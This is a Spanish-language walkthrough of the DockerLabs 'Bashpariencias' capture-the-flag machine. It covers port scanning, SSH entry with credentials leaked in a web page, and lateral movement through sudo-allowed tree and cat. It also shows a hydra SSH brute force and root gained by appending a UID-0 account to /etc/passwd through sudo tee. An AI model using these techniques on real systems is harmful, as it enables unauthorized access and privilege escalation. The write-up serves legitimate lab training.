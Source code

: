 # Bashpariencias DockerLabs

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip bashpariencias.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh bashpariencias.tar
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 11:11 EDT
Nmap scan report for 172.18.0.2
Host is up (0.000038s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd
|_http-title: Leeme
|_http-server-header: Apache
8899/tcp open  ssh     OpenSSH 6.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a3:b0:db:99:e4:c6:a5:b2:5d:2b:36:b6:3e:d0:15:00 (ECDSA)
|_  256 8f:26:4e:8c:60:28:5c:14:03:b2:45:22:ae:e1:f9:24 (ED25519)
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds
```

Si nos vamos a la pagina y en la seccion de `form.html` veremos en el codigo lo siguiente.

```
rosa:lacagadenuevo
```

Por lo que si hacemos lo siguiente.

### SSH

```shell
ssh rosa@<IP>
```

Metemos la contraseña y ya estariamos dentro de la maquina.

```
User = rosa
Pass = lacagadenuevo
```

### Escalate user juan

Si vemos los procesos del sistema, veremos que se esta ejecutando cada segundo un script que lo que hace es crear el archivo `.txt` de la contraseña del usuario `juan` en la carpeta de `/tmp`, por lo que tendremos que ser rapidos y hacer lo siguiente.

```shell
cd /tmp
cat passjuan.txt
```

Info:

```
hackwhitbash
```

Por lo que ya habremos obtenido la contarseña de `juan`.

```shell
su juan
```

Metemos esa contraseña y ya seriamos ese usuario.

```
User = juan
Pass = hackwhitbash
```

### Escalate user carlos

Si hacemos `sudo -l` podremos ver lo siguiente.

```
Matching Defaults entries for juan on 4663ea8d0df3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on 4663ea8d0df3:
    (carlos) NOPASSWD: /usr/bin/tree
    (carlos) NOPASSWD: /usr/bin/cat
```

Que podemos ejecutar esos dos binarios como el usuario `carlos`.

```shell
sudo -u carlos tree -a /home/carlos/
```

Info:

```
/home/carlos/
├── .bash_history
├── .bash_logout
├── .bashrc
├── .cache
│   └── motd.legal-displayed
├── .local
│   └── share
│       └── nano
├── .misecreto.txt
├── .profile
└── password

5 directories, 7 files
```

Encontrando los siguientes archivos nos atraen 2.

```shell
sudo -u carlos cat /home/carlos/password
sudo -u carlos cat /home/carlos/.misecreto.txt
```

Info:

```
(password)

chocolateado

(.misecreto.txt)

No se que hacer solo recuerdo el principio de mi password , olvide los tres ultimos caracteres y si cierro sesion no la recupero.

chocolateXXX

Temo que me despidan como a rosa.
```

Si probamos con la contraseña `chocolateado` vamos a ver que funciona para el usuario `carlos` pero tambien con el otro se podria haber hecho de esta manera...

En nuestro host crearemos un diccionario con esas palabras para ver cual de todas es.

```shell
mp64 'chocolate?l?l?l' > dic.txt
```

```shell
hydra -l carlos -P dic.txt ssh://<IP> -t 64 -s 8899
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-07 12:01:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 17576 login tries (l:1/p:17576), ~275 tries per task
[DATA] attacking ssh://172.18.0.2:8899/
[8899][ssh] host: 172.18.0.2   login: carlos   password: chocolateado
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-07 12:02:03
```

Por lo que vemos nos saca tambien las credenciales.

```
User = carlos
Pass = chocolateado
```

```shell
su carlos
```

Metemos la contraseña y ya seriamos ese usuario.

### Privilege Escalation

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for carlos on 4663ea8d0df3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on 4663ea8d0df3:
    (ALL:NOPASSWD) /usr/bin/tee
```

Por lo que podemos ejecutar ese binario como `root`, por lo que haremos lo siguiente.

En nuestro host, codificaremos una contraseña con un salteado con la herramienta `openssl`.

```shell
openssl passwd -1 -salt "root" "1234"
```

Info:

```
$1$root$.fAWE/htZAqQge.bvM16O/
```

Y ahora en nuestra maquina victima, haremos lo siguiente.

```shell
printf 'tester:$1$root$.fAWE/htZAqQge.bvM16O/:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd
```

Info:

```
tester:$1$root$.fAWE/htZAqQge.bvM16O/:0:0:root:/root:/bin/bash
```

Lo que estamos haciendo aqui es añadir una linea en el `passwd` con ese usuario con la bash de `root`, por lo que cuando cambiemos a ese usuario, seremos `root` con la contarseña `1234` que le implementamos.

```shell
su tester
```

Metemos la contraseña `1234` y ya seremos `root`.
